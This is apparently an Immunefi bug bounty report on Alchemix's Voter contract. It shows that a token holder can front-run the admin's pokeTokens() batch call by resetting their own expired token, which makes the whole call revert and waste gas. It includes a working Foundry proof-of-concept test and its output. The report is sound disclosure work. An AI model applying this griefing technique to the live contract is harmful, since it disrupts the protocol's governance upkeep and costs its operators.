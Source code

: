 
# Malicious users can cause `pokeTokens()` to revert

Submitted on May 20th 2024 at 22:41:29 UTC by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31514

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The voter admin can poke tokens to ensure that they accrue their FLUX and that their votes are reset. In the case where a token's lock has expired in the VE contract, the token is fully reset via `voter.reset()`. The admin passes in an array of tokens to reset. However, a griefer can cause the entire call to revert by simply frontrunning and resetting their own token.

This will:
- Cost the Alchemix admin wasted gas
- Delay the process to reset gauge votes

## Vulnerability Details
After an epoch ends, the Voter admin can reset tokens by calling `pokeTokens()`.

```
    function pokeTokens(uint256[] memory _tokenIds) external {
        require(msg.sender == admin, "not admin");
        for (uint256 i = 0; i < _tokenIds.length; i++) {
            uint256 _tokenId = _tokenIds[i];
            // If the token has expired, reset it
            if (block.timestamp > IVotingEscrow(veALCX).lockEnd(_tokenId)) {
                reset(_tokenId);
            }
            poke(_tokenId);
        }
    }
```

As seen above, if a token's lock has ended, it also calls `reset()` for the token.

```
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }


        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
```

The `reset()` function can revert due to its modifier `onlyNewEpoch()`:

```
    modifier onlyNewEpoch(uint256 _tokenId) {
        // Ensure new epoch since last vote
        require((block.timestamp / DURATION) * DURATION > lastVoted[_tokenId], "TOKEN_ALREADY_VOTED_THIS_EPOCH");
        _;
    }
```

Therefore, a griefer can vote with multiple tokens and simply frontrun any admin call to `pokeTokens()`. A single token that has already been reset will cause the entire function call to fail. On mainnet, this can be a costly revert due to numerous writes to storage. If the malicious token is near the end of the array, it could waste significant gas.

## Impact Details
- Cost the Alchemix admin wasted gas
- Delay the process to reset gauge votes

## Output from POC
```
[PASS] testGriefPokeTokens() (gas: 7570291)
Logs:
  Beef frontruns pokeTokens() call and resets last token in array (tokenId5).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId5 from array and try again.
  Beef frontruns pokeTokens() call and resets last token in array (tokenId4).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId4 from array and try again.
  Beef frontruns pokeTokens() call and resets last token in array (tokenId3).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId3 from array and try again.
  Admin finally calls pokeTokens() successfully.
```



## Proof of Concept

```
function testGriefPokeTokens() public {
        // Kick off epoch cycle
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, 3 weeks, false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, 3 weeks, false);
        uint256 tokenId3 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);
        uint256 tokenId4 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);
        uint256 tokenId5 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);

        uint256[] memory tokens = new uint256[](5);
        tokens[0] = tokenId1;
        tokens[1] = tokenId2;
        tokens[2] = tokenId3;
        tokens[3] = tokenId4;
        tokens[4] = tokenId5;

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.startPrank(admin);
        // Vote and record used weights
        voter.vote(tokenId1, pools, weights, 0);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.stopPrank();

        hevm.startPrank(beef);
        voter.vote(tokenId3, pools, weights, 0);
        voter.vote(tokenId4, pools, weights, 0);
        voter.vote(tokenId5, pools, weights, 0);
        hevm.stopPrank();

        hevm.startPrank(admin);
        uint256 usedWeight1 = voter.usedWeights(tokenId2);
        uint256 totalWeight1 = voter.totalWeight();

        // Move forward 3 weeks to expire locks
        hevm.warp(newEpoch());
        hevm.warp(newEpoch());
        hevm.warp(newEpoch());
        voter.distribute();

        // Move to when token1 expires
        hevm.warp(block.timestamp + 3 weeks);

        // Mock poking idle tokens to sync voting
        hevm.stopPrank();

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId5).");
        hevm.prank(beef);
        voter.reset(tokenId5);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens);

        console.log("Remove tokenId5 from array and try again.");
        uint256[] memory tokens2 = new uint256[](4);
        tokens2[0] = tokenId1;
        tokens2[1] = tokenId2;
        tokens2[2] = tokenId3;
        tokens2[3] = tokenId4;

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId4).");
        hevm.prank(beef);
        voter.reset(tokenId4);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens2);

        console.log("Remove tokenId4 from array and try again.");
        uint256[] memory tokens3 = new uint256[](3);
        tokens3[0] = tokenId1;
        tokens3[1] = tokenId2;
        tokens3[2] = tokenId3;

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId3).");
        hevm.prank(beef);
        voter.reset(tokenId3);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens3);

        console.log("Remove tokenId3 from array and try again.");
        uint256[] memory tokens4 = new uint256[](2);
        tokens4[0] = tokenId1;
        tokens4[1] = tokenId2;

        console.log("Admin finally calls pokeTokens() successfully.");
        hevm.prank(voter.admin());
        voter.pokeTokens(tokens4);
    }
```